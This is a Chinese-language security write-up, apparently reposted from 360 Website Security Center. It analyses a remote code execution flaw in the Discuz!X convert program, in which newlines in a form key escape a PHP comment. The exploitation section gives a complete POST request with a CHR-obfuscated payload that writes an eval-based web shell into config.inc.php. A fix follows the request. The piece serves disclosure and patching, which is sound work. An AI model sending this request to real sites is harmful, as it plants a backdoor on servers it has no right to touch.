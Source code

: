 # Discuz!X 升级/转换程序 GETSHELL 漏洞分析

2014/02/14 18:47 | [360 网站安全中心](http://drops.wooyun.org/author/360 网站安全中心 "由 360 网站安全中心 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 漏洞分析

* * *

漏洞的根源在代码注释中出现换行，导致代码执行，流程如下:

### 0x0101 首先，从 index.php 第 30 行跟入。

![enter image description here](img/img1_u51_png.jpg)

### 0x0102 do_config_inc.php 的第 37 行，跟入这个 save_config_file()函数。

![enter image description here](img/img2_u54_png.jpg)

### 0x0103 gobal.func.php 第 624 行，跟入这个 getvars()函数。

![enter image description here](img/img3_u15_png.jpg)

### 0x0104 继续跟入 buildarray()这个函数

![enter image description here](img/img4_u17_png.jpg)

### 0x0105 漏洞出现在 598 行，这个$newline 的问题。

![enter image description here](img/img5_u16_png.jpg)

这里因为$key 可控，所以$newline 可控，当$newline 出现
或
时，导致 BBB 可以作为 php 代码执行。如图所示。

![enter image description here](img/img6_u17_png.jpg)

## 0x02 漏洞利用

* * *

可以构造如下请求：

```
POST /DZ2/convert/ HTTP/1.1
Host: 192.168.52.129
Proxy-Connection: keep-alive
Content-Length: 925
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Origin: null
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/29.0.1547.57 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8

a=config&source=d7.2_x2.0&submit=yes&newconfig%5Btarget%5D%5Bdbhost%5D=localhost&newconfig%5Baaa%0D%0A%0D%0Aeval%28CHR%28101%29.CHR%28118%29.CHR%2897%29.CHR%28108%29.CHR%2840%29.CHR%2834%29.CHR%2836%29.CHR%2895%29.CHR%2880%29.CHR%2879%29.CHR%2883%29.CHR%2884%29.CHR%2891%29.CHR%2899%29.CHR%2893%29.CHR%2859%29.CHR%2834%29.CHR%2841%29.CHR%2859%29%29%3B%2F%2F%5D=localhost&newconfig%5Bsource%5D%5Bdbuser%5D=root&newconfig%5Bsource%5D%5Bdbpw%5D=&newconfig%5Bsource%5D%5Bdbname%5D=discuz&newconfig%5Bsource%5D%5Btablepre%5D=cdb_&newconfig%5Bsource%5D%5Bdbcharset%5D=&newconfig%5Bsource%5D%5Bpconnect%5D=1&newconfig%5Btarget%5D%5Bdbhost%5D=localhost&newconfig%5Btarget%5D%5Bdbuser%5D=root&newconfig%5Btarget%5D%5Bdbpw%5D=&newconfig%5Btarget%5D%5Bdbname%5D=discuzx&newconfig%5Btarget%5D%5Btablepre%5D=pre_&newconfig%5Btarget%5D%5Bdbcharset%5D=&newconfig%5Btarget%5D%5Bpconnect%5D=1&submit=%B1%A3%B4%E6%B7%FE%CE%F1%C6%F7%C9%E8%D6%C3 
```

发送这段请求直接 getshell，恶意代码写入/convert/data/config.inc.php 文件当中，如图所示。

![enter image description here](img/img7_u31_png.jpg)

## 0x03 关于修复

* * *

需要在 global.func.php 文件的 buildarray 函数中过滤掉$key 中的非字母、数字及下划线字符，即添加代码如下：

```
$key = preg_replace("/[^w]/","", $key);

```

如图所示。

![enter image description here](img/img8_u11_png.jpg)

（以上分析仅供学习交流，各 DZ！X 系列站长勿忘修复！）

以上为 360 网站安全中心博客文章，原文：[`loudong.360.cn/blog/view/id/15`](http://loudong.360.cn/blog/view/id/15)

版权声明：未经授权禁止转载 [360 网站安全中心](http://drops.wooyun.org/author/360 网站安全中心 "由 360 网站安全中心 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [攻击 JavaWeb 应用[2]-CS 交互安全](http://drops.wooyun.org/tips/164)
*   [攻击 JavaWeb 应用[9]-Server 篇[2]](http://drops.wooyun.org/papers/869)
*   [常见的 HTTPS 攻击方法](http://drops.wooyun.org/tips/4403)
*   [安全科普：Waf 实现扫描器识别 彻底抵挡黑客扫描](http://drops.wooyun.org/tips/730)
*   [XSS 挑战第二期 Writeup](http://drops.wooyun.org/papers/938)
*   [Clickjacking 简单介绍](http://drops.wooyun.org/papers/104)